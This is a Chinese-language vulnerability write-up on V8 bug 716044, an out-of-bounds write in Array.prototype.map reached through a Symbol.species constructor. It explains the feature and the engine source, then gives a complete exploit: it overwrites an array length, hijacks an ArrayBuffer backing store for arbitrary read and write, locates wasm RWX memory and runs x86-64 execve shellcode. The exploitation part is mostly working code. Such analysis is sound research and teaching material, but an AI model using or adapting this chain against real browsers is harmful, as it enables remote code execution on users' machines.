

## Issue 716044 Array.prototype.map OOB

#### 基础科普

###### Symbol.species

Symbol.species 是个函数值属性，对象的Symbol.species属性，指向一个构造函数。创建衍生对象时，会使用该属性。

举个例子：

```
class MyArray extends Array {}
const a = new MyArray(1,2,3);
const b = a.map(x => x);
const c = a.filter(x => x > 1);
console.log(b);
console.log(c);
console.log(b instanceof MyArray); //true
```

子类MyArray继承了父类Array，a是MyArray的实例，b和c是a的衍生对象。b和c是Array的实例，也是MyArray的实例，为了进行区分，引入Symbol.species属性:

```
class MyArray extends Array{
    // 覆盖 species 到父级的 Array 构造函数上
    static get [Symbol.species] () {
        return Array;
    }
 }
```
这样的话：
```
var a = new MyArray(1,2,3);
var b = a.map(x => x * x);

console.log(b instanceof MyArray); // false
console.log(b instanceof Array);   // true
```
通过a.map创建的b就不再是MyArray的实例了，而是Array的实例。    

    
#### poc

原版poc：
```
class Array1 extends Array {
  constructor(len) {
    super(1);
  }
};

class MyArray extends Array {
  static get [Symbol.species]() {
    return Array1;
  }
}

a = new MyArray();
for (var i = 0; i < 10000000; i++) {
  a.push(1);
}

a.map(function(x) { return 42; });
```

为了方便下面的分析，我们对poc做一些微调(O_和a_都是参照源码来命名的，可以对照分析)：

```
var float_array;
function hex(i)
{
	return i.toString(16).padStart(16, "0");
}

class Array1 extends Array {
	constructor(len) {
	super(1);
	float_array = [1.1, 2.2];
	}
};
class MyArray extends Array {
	static get [Symbol.species]() {
		return Array1;
	}
}

o_ = new MyArray();

o_[2] = 3;
o_[8] = 9;

var a_ = o_.map(function(x) { return 0xddaa; });
%DebugPrint(o_);
%DebugPrint(a_);
```

##### 漏洞分析

array.map的调用链：
```
ArrayMap
	->args.GetReceiver();
	->args.GetOptionalArgumentValue(0, UndefinedConstant()); //获得callback参数
	->args.GetOptionalArgumentValue(1, UndefinedConstant());//获得thisArg参数
	->InitIteratingArrayBuiltinBody // 赋值操作
    ->GenerateIteratingArrayBuiltinBody
        ->o_ = CallStub(CodeFactory::ToObject(isolate()), context(), receiver());//o_保存Array.prototype.map的this对象
		->len_ = merged_length.value();//加载数组的长度
		->a_.Bind(generator(this));//调用generator函数并将结果返回保存在a_
			->MapResultGenerator() //generator函数的调用链如下
                ->ArraySpeciesCreate
                	->Runtime::kArraySpeciesConstructor
                        ->v8::internal::Object::ArraySpeciesConstructor
                            ->Array[Symbol.species] // 最终对象的Symbol.species 属性
		->HandleFastElements(processor, action, &slow, direction);//对每个元素调用processor函数进行赋值操作
			->MapProcessor //将o_（原数组）中的每个元素赋值调用callbackfn 并将结果保存到a_（新数组）中
                ->TryStoreArrayElement
```

漏洞是出在GenerateIteratingArrayBuiltinBody这条链上的：

```
void GenerateIteratingArrayBuiltinBody(
    const char* name, const BuiltinResultGenerator& generator,
    const CallResultProcessor& processor, const PostLoopAction& action,
    const Callable& slow_case_continuation,
    ForEachDirection direction = ForEachDirection::kForward) {
  ...

  o_ = CallStub(CodeFactory::ToObject(isolate()), context(), receiver());

  ...

  GotoIf(DoesntHaveInstanceType(o(), JS_ARRAY_TYPE), &not_js_array);
  merged_length.Bind(LoadJSArrayLength(o()));
  Goto(&has_length);

  ...

  BIND(&has_length);
  len_ = merged_length.value();

  ...

  a_.Bind(generator(this));
  HandleFastElements(processor, action, &slow, direction);
  ...
```

简单介绍一下发生了什么（调用链里也有，在写一遍）：

- o_ : 可以参照poc中的命名，它保存了Array.prototype.map的this对象

- len_ = o\_.length: o\_数组的长度
- a_ = generator(): 调用该函数去创建JSArray，并将map的执行结果保存到a_中。
- HandleFastElements(...): 对每个元素调用processor函数进行赋值操作。


接着去看下generator函数的调用链：

```
Node* MapResultGenerator() {
  return ArraySpeciesCreate(context(), o(), len_);
}


Node* CodeStubAssembler::ArraySpeciesCreate(Node* context, Node* originalArray,
                                            Node* len) {
  Node* constructor =
      CallRuntime(Runtime::kArraySpeciesConstructor, context, originalArray);
  return ConstructJS(CodeFactory::Construct(isolate()), context, constructor,
                     len);
}
```

当这个CallRuntime函数被调用时，就会去寻找我们Symbol.species绑定的构造函数，也就是poc中的：

```
class Array1 extends Array {
  constructor(len) {
    super(1);
  }
};
```
这样就会讲a_的长度修改为1。

但是在之后的赋值操作：
```
  BranchIfFastJSArray(a(), context(), FastJSArrayAccessMode::ANY_ACCESS,
                      &fast, &runtime);
  BIND(&fast);
  {
    kind = EnsureArrayPushable(a(), &runtime);
    elements = LoadElements(a());
    GotoIf(IsElementsKindGreaterThan(kind, FAST_HOLEY_SMI_ELEMENTS),
           &object_push_pre);
    TryStoreArrayElement(FAST_SMI_ELEMENTS, mode, &runtime, elements, k,
                         mappedValue);
    Goto(&finished);
  }
```
我们会以o_的长度为准来为a_赋值，这样就导致了oob。



而且可以看到我们poc中a_的未初始化的成员为hole，map是不会处理这些空洞的，这样就产生了非线性溢出，我们可以自由的控制溢出的偏移。


### 利用

##### 思路

虽然名字看起来很高端-非线性溢出，但其本质依旧是数组溢出，我们通过修改float array的length可以实现数组越界，之后就和正常的数组越界思路相同了，找bk，找rwx，通过控制bk指针来实现oor，oow。


###### 1、实现数组越界

```
class Array1 extends Array{
	constructor(len){
		super(1);
		oobArray = [1.1, 2.2];
		data_buf = new ArrayBuffer(0x233);
		obj = {mark: 1212122, obj: wasm_function};
	}
};


class MyArray extends Array{
	static get [Symbol.species](){
		return Array1;
	}
};

a = new MyArray();
a[8] = 6;

var b = a.map(function(x) {return 1000;});
```

我们为a[8]初始化一个值，8这个偏移是oobArray的length，之后在var b = a.map(function(x) {return 1000;});这里将length修改为1000，实现数组越界。


#####  2、找到 bk，并实现oor、oow

遍历数组找data_buf的length，bk是length的下一个（float_buffer_idx = i + 1;）。
```
//find bk
var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(oobArray[i]) == 0x0000023300000000){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(oobArray[float_buffer_idx])));
		break;
	}
}

//oor
var data_view = new DataView(data_buf);

function dataview_read64(addr)
{
	oobArray[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}


//oow
function dataview_write(addr, payload)
{
	oobArray[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}
```

##### 3、find rwx

```
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var wasm_function = wasmInstance.exports.main;


var float_obj_idx = 0;
for(let i=0; i < 0x100; i++)
{
	if(f2i(oobArray[i]) == 0x430f9534b3e01560){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(oobArray[float_obj_idx])));
		break;
	}
}
var wasm_function_addr = f2i(oobArray[float_obj_idx]) - 0x1;

var wasm_shared_info = dataview_read64(wasm_function_addr + 0x20);
console.log("[+] find wasm_shared_info : 0x" + hex(wasm_shared_info));

var wasm_code = dataview_read64(wasm_shared_info - 0x1 + 0x8);
console.log("[+] find wasm_code : 0x" + hex(wasm_code));

var wasm_rwx = wasm_code - 0xc1 + 0x140; 
console.log("[+] find wasm_rwx : 0x" + hex(wasm_rwx));
```


##### 4、getshell
```
var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(wasm_rwx, shellcode);

wasm_function();
```